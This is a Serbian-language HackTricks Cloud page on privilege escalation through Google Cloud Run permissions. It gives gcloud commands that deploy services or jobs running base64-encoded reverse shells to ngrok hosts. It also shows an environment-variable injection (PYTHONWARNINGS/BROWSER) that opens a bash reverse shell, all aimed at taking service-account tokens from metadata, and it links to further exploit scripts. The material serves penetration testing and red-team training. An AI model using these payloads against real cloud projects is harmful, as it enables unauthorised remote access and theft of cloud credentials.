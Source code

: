 # GCP - Run Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Run

Za više informacija o Cloud Run proverite:

{% content-ref url="../gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create` , `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

Napadač sa ovim dozvolama može **da kreira run servis koji pokreće proizvoljan kod** (proizvoljni Docker kontejner), da mu pridruži Service Account i da učini da kod **izvadi token Service Account-a iz metapodataka**.

Eksploatacioni skript za ovu metodu može se naći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) a Docker slika može se naći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Napomena: kada koristite `gcloud run deploy` umesto samo kreiranja servisa **potrebna je dozvola `update`**. Proverite [**primer ovde**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

Kao prethodni, ali ažurira servis:
```bash
# Launch some web server to listen in port 80 so the service works
echo "python3 -m http.server 80;sh -i >& /dev/tcp/0.tcp.eu.ngrok.io/14348 0>&1" | base64
# cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg==

gcloud run deploy hacked \
--image=ubuntu:22.04 \  # Make sure to use an ubuntu version that includes python3
--command=bash \
--args="-c,echo cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated

# If you don't have permissions to use "--allow-unauthenticated", dont use it
```
### `run.services.setIamPolicy`

Dajte sebi prethodne dozvole za cloud Run.

### `run.jobs.create`, `run.jobs.run`, `iam.serviceaccounts.actAs`,(`run.jobs.get`)

Pokrenite posao sa reverznim shell-om da biste ukrali servisni nalog naznačen u komandi. Možete pronaći [**eksploit ovde**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/m-run.jobs.create.sh).
```bash
gcloud beta run jobs create jab-cloudrun-3326 \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNC50Y3AuZXUubmdyb2suaW8vMTIxMzIgMD4mMQ== | base64 -d | bash" \
--service-account="<sa>@$PROJECT_ID.iam.gserviceaccount.com" \
--region=us-central1

```
### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

Slično prethodnom, moguće je **ažurirati posao i ažurirati SA**, **izvršiti komandu** i **pokrenuti je**:
```bash
gcloud beta run jobs update hacked \
--image=mubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--execute-now
```
### `run.jobs.setIamPolicy`

Dajte sebi prethodne dozvole za Cloud Jobs.

### `run.jobs.run`, `run.jobs.runWithOverrides`, (`run.jobs.get`)

Iskoristite env varijable izvršenja posla da izvršite proizvoljan kod i dobijete reverznu ljusku za iskopavanje sadržaja kontejnera (izvorni kod) i pristupite SA unutar metapodataka:

{% code overflow="wrap" %}
```bash
gcloud beta run jobs execute job-name --region <region> --update-env-vars="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/14195 0>&1' #%s"
```
{% endcode %}

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
